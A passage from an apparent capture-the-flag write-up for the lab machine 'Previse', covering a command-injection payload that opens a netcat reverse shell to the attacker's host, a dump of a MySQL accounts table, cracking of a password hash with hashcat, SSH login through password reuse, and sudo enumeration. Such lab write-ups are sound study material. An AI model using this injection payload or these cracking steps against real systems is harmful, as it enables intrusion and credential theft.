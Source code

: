 ```bash
$ nc -nlvp 4444
```

Send the request

![](/img/previse/Pasted%20image%2020211225180452.png)

```http
delim=;nc+10.10.14.33+4444+-e+/bin/sh
```

And we get a reverse shell

![](/img/previse/Pasted%20image%2020211225180415.png)

### MySQL recon

```bash
$ mysql -u root -p
mysql> SELECT * FROM accounts;
SELECT * FROM accounts;
+----+---------------+------------------------------------+---------------------+
| id | username      | password                           | created_at          |
+----+---------------+------------------------------------+---------------------+
|  1 | m4lwhere      | $1$🧂llol$DQpmdvnb7EeuO6UaqRItf. | 2021-05-27 18:18:36 |
```

Saving the hash into a file `m4lwhere.hash` and cracking the hash using hashcat

```bash
hashcat -m 500 -a 0 m4lwhere.hash /usr/share/wordlists/rockyou.txt
```

The cracked password

```text
$1$🧂llol$DQpmdvnb7EeuO6UaqRItf.:ilovecody112235!
```

### Logging in using these creds
and hoping for a password reuse

```bash
$ ssh m4lwhere@10.10.11.104
```

and `ilovecody112235!` as password we get a SSH shell

![](/img/previse/Pasted%20image%2020211225183445.png)

# Post Exploit Enumeration
### sudo -l

```bash
m4lwhere@previse:~$ sudo -l
[sudo] password for m4lwhere:
User m4lwhere may run the following commands on previse:
    (root) /opt/scripts/access_backup.sh
```

